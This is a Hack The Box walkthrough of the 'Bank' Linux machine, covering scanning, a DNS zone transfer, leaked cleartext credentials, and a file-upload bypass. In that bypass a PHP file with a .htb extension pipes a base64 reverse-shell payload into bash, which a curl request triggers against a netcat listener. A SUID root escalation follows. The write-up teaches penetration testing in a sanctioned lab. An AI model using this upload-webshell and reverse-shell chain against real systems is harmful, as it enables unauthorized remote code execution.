


+++
title = "Bank"
date = "2023-12-31"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2017-06-16

**Created by**: [makelarisjr](https://app.hackthebox.com/users/95)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.4`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.10.29`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Bank using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.10.29" -p-
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.10.29" --top-ports "500"
```

```
<SNIP>
PORT   STATE SERVICE
53/udp open  domain
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.10.29" -p "22,53,80" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
<SNIP>
```

Let's do the same for the UDP port.

```sh
❯ nmap -sU "10.10.10.29" -p "53" -sV
```

```
<SNIP>
PORT   STATE SERVICE VERSION
53/udp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Alright, so `nmap` managed to determine that Bank is running Linux, and the
version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.10.29" -p "22,53,80" -sC
```

```
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http
|_http-title: Apache2 Ubuntu Default Page: It works
<SNIP>
```

Let's also run them on the UDP service.

```sh
❯ nmap -sU "10.10.10.29" -p "53" -sC
```

```
<SNIP>
PORT   STATE SERVICE
53/udp open  domain
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
<SNIP>
```

## Services enumeration

### DNS

#### Zone transfer for `bank.htb`

Let's try to perform a zone transfer for the domain `bank.htb`, which is
probably the domain name for this box (according to HTB's naming habits):

```sh
❯ dig axfr bank.htb @10.10.10.29 +noall +answer
```

```
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 5 604800 86400 2419200 604800
bank.htb.               604800  IN      NS      ns.bank.htb.
bank.htb.               604800  IN      A       10.10.10.29
ns.bank.htb.            604800  IN      A       10.10.10.29
www.bank.htb.           604800  IN      CNAME   bank.htb.
bank.htb.               604800  IN      SOA     bank.htb. chris.bank.htb. 5 604800 86400 2419200 604800
```

It worked! So `bank.htb` is a valid domain for this box. I'll add it to my
`/etc/hosts` file.

```sh
❯ echo "10.10.10.29 bank.htb" >> "/etc/hosts"
```

### Apache

#### Exploration

Let's browse to `http://10.10.10.29/`.


It's a standard Apache successful installation page for Ubuntu.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.


#### Exploration

Now let's explore the `bank.htb` domain.


We're redirected to `/login.php`, and we're served a standard login page.

#### Fingerprinting

Let's fingerprint the technologies used by this web page with the
[Wappalyzer](https://www.wappalyzer.com/) extension.



This reveals that this web page is using PHP version `5.5.9`.

#### Exploration

We probably need to authenticate to access functionalities.

I launched a Cluster bomb attack on Burp Suite using
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt)
for the usernames and
[this wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-passwords-shortlist.txt)
for the passwords to test for common credentials. Unfortunately, they all
failed.

#### Under the hood

If we check the previous requests using Burp Suite, we notice that when we press
the 'Submit Query' button to submit the form, a POST message is sent
to `/login.php` with the data:

```html
inputEmail=<EMAIL>&inputPassword=<PASSWORD>&submit=Submit+Query
```

We also notice that our request to `/` received a `302` code redirecting
to `/login.php`, but the response contains HTML!

#### EAR

I'll create a match/replace rule on Burp Suite to replace all `302 Found` codes
to `200 OK` in the response headers.

Then, I'll browse once again to `http://bank.htb/`:


It contains a few heralding signs of the real web page, but it's really
barebone. We can't access any functionality, so we'll come back to it later.

#### Site crawling

Let's see if we can find any linked web pages or directories.

```sh
❯ katana -u "http://bank.htb/"
```

```
<SNIP>
http://bank.htb/
http://bank.htb/assets/js/js/bootstrap.min.js
http://bank.htb/assets/js/plugins/morris/morris-data.js
http://bank.htb/assets/js/plugins/morris/morris.min.js
http://bank.htb/login.php
http://bank.htb/assets/css/theme/styles.css
http://bank.htb/assets/js/bootstrap.min.js
http://bank.htb/assets/css/bootstrap.min.css
http://bank.htb/assets/js/jquery.js
http://bank.htb/assets/js/theme/custom.js
http://bank.htb/assets/js/sweetalert.min.js
http://bank.htb/a
http://bank.htb/index.html
http://bank.htb/assets/js/plugins/morris/raphael.min.js
```

The `/a` path is weird, but if we browse to it we get a 404 error page.

#### Directory fuzzing

Let's see if this website hides unliked web pages and directories.

```sh
❯ ffuf -v -c -u "http://bank.htb/FUZZ" -w "/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt" -mc "100-403,405-599" -e "/,.php"
```

```
<SNIP>
[Status: 200, Size: 1974, Words: 595, Lines: 52, Duration: 35ms]
| URL | http://bank.htb/login.php
    * FUZZ: login.php

[Status: 302, Size: 3291, Words: 784, Lines: 84, Duration: 36ms]
| URL | http://bank.htb/support.php
| --> | login.php
    * FUZZ: support.php

[Status: 403, Size: 281, Words: 21, Lines: 11, Duration: 33ms]
| URL | http://bank.htb/icons/
    * FUZZ: icons/

[Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 31ms]
| URL | http://bank.htb/uploads
| --> | http://bank.htb/uploads/
    * FUZZ: uploads

[Status: 403, Size: 283, Words: 21, Lines: 11, Duration: 31ms]
| URL | http://bank.htb/uploads/
    * FUZZ: uploads/

[Status: 301, Size: 304, Words: 20, Lines: 10, Duration: 31ms]
| URL | http://bank.htb/assets
| --> | http://bank.htb/assets/
    * FUZZ: assets

[Status: 200, Size: 1696, Words: 112, Lines: 21, Duration: 33ms]
| URL | http://bank.htb/assets/
    * FUZZ: assets/

[Status: 302, Size: 7322, Words: 3793, Lines: 189, Duration: 3294ms]
| URL | http://bank.htb/index.php
| --> | login.php
    * FUZZ: index.php

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 31ms]
| URL | http://bank.htb/logout.php
| --> | index.php
    * FUZZ: logout.php

[Status: 301, Size: 301, Words: 20, Lines: 10, Duration: 31ms]
| URL | http://bank.htb/inc
| --> | http://bank.htb/inc/
    * FUZZ: inc

[Status: 200, Size: 1530, Words: 100, Lines: 20, Duration: 31ms]
| URL | http://bank.htb/inc/
    * FUZZ: inc/

[Status: 403, Size: 279, Words: 21, Lines: 11, Duration: 33ms]
| URL | http://bank.htb/.php
    * FUZZ: .php

[Status: 302, Size: 7322, Words: 3793, Lines: 189, Duration: 40ms]
| URL | http://bank.htb//
| --> | login.php
    * FUZZ: /

[Status: 302, Size: 7322, Words: 3793, Lines: 189, Duration: 39ms]
| URL | http://bank.htb/
| --> | login.php
    * FUZZ: 

[Status: 403, Size: 289, Words: 21, Lines: 11, Duration: 70ms]
| URL | http://bank.htb/server-status/
    * FUZZ: server-status/

[Status: 403, Size: 288, Words: 21, Lines: 11, Duration: 81ms]
| URL | http://bank.htb/server-status
    * FUZZ: server-status

[Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 35ms]
| URL | http://bank.htb/balance-transfer
| --> | http://bank.htb/balance-transfer/
    * FUZZ: balance-transfer

[Status: 200, Size: 253503, Words: 13039, Lines: 1015, Duration: 123ms]
| URL | http://bank.htb/balance-transfer/
    * FUZZ: balance-transfer/
<SNIP>
```

There's several interesting hits.

#### Exploration

Let's browse to `http://bank.htb/inc/` first:


It's a directory listing. It contains a few PHP files, probably the source code
of the website.

One of them is named `header.php`, and if we click on it we are redirected to
`/inc/login.php`. Therefore, it must be responsible for handling authentication!

Unfortunately, there's no way to retrieve the source code of the PHP files, as
they get executed if we browse to these files.

Let's also explore `http://bank.htb/balance-transfer/`:


There's a massive amount of `.acc` files.

I'll download the first one. Its content is the following:

```
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: czeCv3jWYYljNI2mTedDWxNCF37ddRuqrJ2WNlTLje47X7tRlHvifiVUm27AUC0ll2i9ocUIqZPo6jfs0KLf3H9qJh0ET00f3josvjaWiZkpjARjkDyokIO3ZOITPI9T
Email: 1xlwRvs9vMzOmq8H3G5npUroI9iySrrTZNpQiS0OFzD20LK4rPsRJTfs3y1VZsPYffOy7PnMo0PoLzsdpU49OkCSSDOR6DPmSEUZtiMSiCg3bJgAElKsFmlxZ9p5MfrE
Password: TmEnErfX3w0fghQUCAniWIQWRf1DutioQWMvo2srytHOKxJn76G4Ow0GM2jgvCFmzrRXtkp2N6RyDAWLGCPv9PbVRvbn7RKGjBENW3PJaHiOhezYRpt0fEV797uhZfXi
CreditCards: 5
Transactions: 93
Balance: 905948 .
===UserAccount===
```

I'll do the same for the second one:

```
++OK ENCRYPT SUCCESS
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: WSO99GxdMW3WYxJwPIEqJHyt5UEAxnKtfyDpfaC16GY5dIB3rgtaY1E3WjDtGnWWWAlcKYdREbWSUxVlNpvLraPnttQaRN6Onr08pdZ4pWWjuREhha3IlT5OmVYdJ416
Email: w1fWfe1EbXYFPDX6N1O8UTXhPWuz1wGxyVuNavsltq0i3YpRZe0T8YaXUFxVcdtK8Xyit0EWrFfuDFmCTmw1kGYfmwayJDjRBRa5SP2juhO7WaJPxfRSWQ7jmhS5VbXw
Password: 38CVXEerW3zSdjILzzDvpKPL1HRXTOuXW6TUK8mGbVzoei9NSNjhx83zQVwKJ1IG7BBSJXzUS8j7qtUjgeAOnEnezUZjVH03iBV1zuWsDfz4IunZIYN6Cakc5jw00w3i
CreditCards: 0
Transactions: 149
Balance: 3301234 .
===UserAccount===
```

These files look really similar!

According to the header, they constitute bank reports of transactions. There's a
few fields like `CreditCards`, `Transcations` and `Balance` that keep track of
some data. The `Full Name`, `Email` and `Password` seem to be encrypted though,
as indicated by the '++OK ENCRYPT SUCCESS' message. With this information, we
would've been able to log in as these users...

Let's try to retrieve it then!

#### Hash cracking

Let's enter the email of the first file we downloaded on
[Crackstation](https://crackstation.net/). Here's the result:


Unfortunately, the hash format isn't recognized.

#### Failed encryption

The `.acc` files we opened had encrypted login information, so we were unable to
use them to log in to the website. But maybe the encryption failed for one of
them?

Let's get the number of files first.

```sh
❯ curl -s "http://bank.htb/balance-transfer/" | grep -oP "\S+\.acc" | wc -l
```

```
999
```

So there's `999` files. It would be impossible to manually download and verify
each file, so we have to think here.

If the encryption failed for one of these files, the `Full Name`, `Email` and
`Password` would be in plaintext. We've seen that the encrypted form was really
long, likely lengthier that the initial values. Therefore, if the encryption
failed for one file, it should have a shorter size! At least, that's assuming
there's no endless error message if the encryption failed, which would make the
size bigger than the other files.

If we browse to `http://bank.htb/balance-transfer/` once again, we can click on
`Size` to sort the files by size. We see that one file named
`68576f20e9732f1b2edc4df5b8533230.acc` has a size of `257` instead of `580`-ish!
Let's download it and get its content.

```
--ERR ENCRYPT FAILED
+=================+
| HTB Bank Report |
+=================+

===UserAccount===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 5
Transactions: 39
Balance: 8842803 .
===UserAccount===
```

We have cleartext credentials!

#### Exploration

Let's head back to `http://bank.htb/login.php` and log in with our freshly
discovered credentials.


Now access to the verion of the real website, unlike in the
[EAR section](#ear)!

We have access to an interface displaying various information related to
`chris`'s bank account, like its balance, its number of transactions and its
information.

We also have access to `/support.php`:


We can fill a form to send a ticket.

Interestingly, we can choose a file to submit, and see our tickets afterwards.
Maybe we could use this to upload a PHP file and get RCE?

#### File upload

I'll create a `dummy.php` file:

```php
<?php system('sleep 10') ?>
```

Let's try to upload it:



We get an error, indicating that the website performs validation on the file.

Let's try to add a double extension, like `.php.png` to see if it's enough to
bypass the validation.


It is! Unfortunately, if we browse to the file we just uploaded, we get an error
message indicating that the image contains errors.

I tried others extensions used to execute PHP code, but they're all blocked.

At this point, I checked the previous requests using Burp Suite for any hints.
And I found one in `/support.php`'s response body:

```html
<SNIP>
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] -->
<SNIP>
```

It looks like what we were looking for!

## Foothold (File upload)

Since the website allows `.htb` files to be executed as PHP 'for debugging
purposes', and since we can upload our own files, we can get RCE on the server.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

We still need to find a way to execute our payload. Luckily we know that the
website is using PHP, so it should be pretty easy to obtain one by executing our
payload as an OS command like that:

```php
<?php system('/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i') ?>
```

I'll save it as `revshell.htb`.

### Exploitation

Let's create a ticket with our PHP file as the attachment with our authorized
session:

```sh
❯ curl -s -o "/dev/null" -H "Cookie: HTBBankAuth=9eumasca9uda7rmlr8tn2eucs4" "http://bank.htb/support.php" -X "POST" -F "title=Revshell" -F "message=" -F "fileToUpload=@/workspace/revshell.htb" -F "submitadd="
```

Now, let's trigger our `revshell.htb` file!

```sh
❯ curl -s -o "/dev/null" "http://bank.htb/uploads/revshell.htb"
```

And if we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.29] 56094
<SNIP>
www-data@bank:/var/www/bank/uploads$
```

It caught the reverse shell!

### Spawning a pty

Let's use this one-liner to spawn a pty:

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `www-data`.

### Architecture

What is Bank's architecture?

```sh
www-data@bank:/var/www/bank/uploads$ uname -m
```

```
i686
```

It's using i686. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Bank is using.

```sh
www-data@bank:/var/www/bank/uploads$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.5 LTS"
```

Okay, so it's Ubuntu 14.04.

### Kernel

Let's find the kernel version of Bank.

```sh
www-data@bank:/var/www/bank/uploads$ uname -r
```

```
4.4.0-79-generic
```

It's `4.4.0`.

### Users

Let's enumerate all users.

```sh
www-data@bank:/var/www/bank/uploads$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
chris
root
```

There's `chris` and `root`.

### Groups

Let's enumerate all groups.

```sh
www-data@bank:/var/www/bank/uploads$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
adm
audio
backup
bin
bind
cdrom
chris
crontab
daemon
dialout
dip
disk
fax
floppy
fuse
games
gnats
irc
kmem
landscape
libuuid
list
lp
lpadmin
mail
man
messagebus
mlocate
mysql
netdev
news
nogroup
operator
plugdev
proxy
root
sambashare
sasl
shadow
src
ssh
ssl-cert
staff
sudo
sys
syslog
tape
tty
users
utmp
uucp
video
voice
www-data
```

### NICs

Let's gather the list of connected NICs.

```sh
www-data@bank:/var/www/bank/uploads$ ifconfig
```

```
eth0      Link encap:Ethernet  HWaddr 00:50:56:b9:f0:ba  
          inet addr:10.10.10.29  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:feb9:f0ba/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:feb9:f0ba/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:692838 errors:0 dropped:0 overruns:0 frame:0
          TX packets:691148 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:118412925 (118.4 MB)  TX bytes:337855134 (337.8 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:782 errors:0 dropped:0 overruns:0 frame:0
          TX packets:782 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:80318 (80.3 KB)  TX bytes:80318 (80.3 KB)
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Bank's hostname?

```sh
www-data@bank:/var/www/bank/uploads$ hostname
```

```
bank
```

Yeah I know, very surprising.

## System enumeration

### Website code review

Let's review the content of the Apache website, located at `/var/www/bank`.

```php
<SNIP>
session_name("HTBBankAuth");
session_start();

if(empty($_SESSION['username'])){
    header("location: login.php");
    return;
}
<SNIP>
```

The `header.php` file is actually not really responsible for handling
authentication, it only checks if the `HTBBankAuth` cooke is set and if it
isn't, it redirects to `/login.php`.

```php
<SNIP>
class User {

    function login($email, $password){
        $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
        $email = $mysql->real_escape_string($email);
        $password = md5($password);
        $result = $mysql->query("SELECT * FROM users WHERE email = '$email' AND password = '$password'");
        if($result->num_rows <= 0){
            return false;
        } else {
            return true;
        }
    }

    function totalTickets($username){
        $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
        $username = $mysql->real_escape_string($username);
        $result = $mysql->query("SELECT * FROM tickets WHERE creator = '$username'");
        return $result->num_rows;
    }

    function getUsername($email){
        $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
        $email = $mysql->real_escape_string($email);
        $result = $mysql->query("SELECT * FROM users WHERE email = '$email'");
        $row = $result->fetch_assoc();
        return $row['username'];
    }

    function getBalance($username){
        $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
        $username = $mysql->real_escape_string($username);
        $result = $mysql->query("SELECT * FROM users WHERE username = '$username'");
        $row = $result->fetch_assoc();
        return $row['balance'];
    }

    function getCreditCardNumber($username){
        $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
        $username = $mysql->real_escape_string($username);
        $result = $mysql->query("SELECT * FROM creditcards WHERE username = '$username'");
        return $result->num_rows;
    }

    function getCreditCards($username){
        $mysql = new mysqli("localhost", "root", "!@#S3cur3P4ssw0rd!@#", "htbbank");
        $username = $mysql->real_escape_string($username);
        $result = $mysql->query("SELECT * FROM creditcards WHERE username = '$username'");
        $final = "";
        while($row = $result->fetch_assoc()){
            $final .= "<tr>";
            $final .= "<td>" . $row['type'] . "</td>";
            $final .= "<td>" . $row['number'] . "</td>";
            $final .= "<td>" . $row['date'] . "</td>";
            $final .= "<td>" . $row['cvv'] . "</td>";
            $final .= "<td>" . $row['balance'] . " $</td>";
            $final .= "</tr>";
        }
        return $final;
    }
}
```

The `user.php` file is responsible for querying a MySQL database for all
user-related information.

Interestingly, it checks if a user login is valid by hashing its password with
MD5, so passwords are likely stored as MD5 hashed in the database.

Even more interesting, the database connection parameters are written in
cleartext in the code! This application is using the credentials
`root`:`!@#S3cur3P4ssw0rd!@#` to connect to the `htbbank` MySQL database running
locally.

## Services enumeration

### MySQL

Let's connect to the MySQL server running locally using the credentials we just
found:

```sh
www-data@2million:~/html$ mysql -u "root" -p'!@#S3cur3P4ssw0rd!@#'
```

```
mysql>
```

#### Version

Let's find out the version of MySQL in use.

```sh
mysql> SELECT @@version;
```

```
+-------------------------+
| @@version               |
+-------------------------+
| 5.5.55-0ubuntu0.14.04.1 |
+-------------------------+
<SNIP>
```

So it's MySQL version `5.5.55`.

#### Databases

Now, let's see which databases are available.

```sh
mysql> SHOW databases;
```

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| htbbank            |
| mysql              |
| performance_schema |
+--------------------+
<SNIP>
```

The `htbbank` database is the probably the most interesting (it's also the one
used by the website).

#### `htbbank`'s tables

Let's see which tables are included in this database.

```sh
mysql> SHOW tables;
```

```
+-------------------+
| Tables_in_htbbank |
+-------------------+
| creditcards       |
| tickets           |
| users             |
+-------------------+
<SNIP>
```

There's a few tables, but `users` looks particularly noteworthy.

#### `users`'s columns

Let's continue our enumeration of this database by checking the content of the
`users` table.

```sh
mysql> SELECT column_type, column_name FROM information_schema.columns WHERE table_name = 'users';
```

```
+--------------+-------------+
| column_type  | column_name |
+--------------+-------------+
| int(11)      | id          |
| varchar(255) | username    |
| varchar(255) | email       |
| varchar(255) | password    |
| varchar(255) | balance     |
+--------------+-------------+
<SNIP>
```

Okay, so this table contains 5 columns.

#### `users`'s columns content

Let's retrieve the content of the `username` and `password` columns.

```sh
mysql> SELECT username, password FROM users;
```

```
+------------------------+----------------------------------+
| username               | password                         |
+------------------------+----------------------------------+
| Christos Christopoulos | b27179713f7bffc48b9ffd2cf9467620 |
+------------------------+----------------------------------+
<SNIP>
```

There's a single password, which corresponds to the one we found
[previously](#exploration-4).

I tried the MySQL password to connect to Bank as `chris` over SSH, but it
failed. I also tried them with `su chris`, but they failed once again. Same for
`root`.

## System enumeration

### SUID

Let's look for SUID binaries.

```sh
www-data@bank:/var/www/bank/uploads$ find "/" -perm -4000 2>"/dev/null"
```

```
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```

The `/var/htb/bin/emergency` binary is highly unusual.

### Exploring `/var/htb/bin`

If we explore the `/var/htb` folder, we find an `emergency` file.

```py
#!/usr/bin/python

import os, sys

def close():
    print "Bye"
    sys.exit()

def getroot():
    try:
        print "Popping up root shell..";
        os.system("/var/htb/bin/emergency")
        close()
    except:
        sys.exit()

q1 = raw_input("[!] Do you want to get a root shell? (THIS SCRIPT IS FOR EMERGENCY ONLY) [y/n]: ");

if q1 == "y" or q1 == "yes":
    getroot()
else:
    close()
```

This Python script executes the `emergency` binary in `/var/htb/bin`, if we
enter `y` after the prompt, and we know that this binary has the SUID bit set.
It may give us a shell as `root`!

## Privilege escalation (SUID)

### Exploitation

Let's execute the `/var/htb/emergency` Python script:

```sh
www-data@bank:/var/www/bank/uploads$ /var/htb/emergency
```

```
[!] Do you want to get a root shell? (THIS SCRIPT IS FOR EMERGENCY ONLY) [y/n]:
```

Let's enter `y`.

```
[!] Do you want to get a root shell? (THIS SCRIPT IS FOR EMERGENCY ONLY) [y/n]: y
Popping up root shell..
#
```

Nice!

### Establishing persistence

Let's use SSH to establish persistence.

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key, and I'll add the corresponding public key to
`authorized_keys`. Finally, I'll connect over SSH to Bank as `root`.

## System enumeration

If we run `whoami`, we see that we're `root`!

### Flags

If we check `chris`'s home folder, we find the user flag.

```sh
root@bank:~# cat "/home/chris/user.txt"
```

```
8380b230e89279741dc9f1729dda57b7
```

And as usual, we can find the root flag in our home folder.

```sh
root@bank:~# cat "/root/root.txt"
```

```
f49b119cb251d924767cc724b5a1ca79
```

# Afterwords


That's it for this box! 🎉

I rated the user flag as 'Not too easy' and the root flag as 'Very easy'. The
foothold required to first find valid credentials by thoroughly enumerating the
website, and then to identify and exploit a file upload vulnerability. The
privilege escalation was much easier, we just had to identify a custom binary
with the SUID bit set, and then to execute it to get `root`.

Thanks for reading!
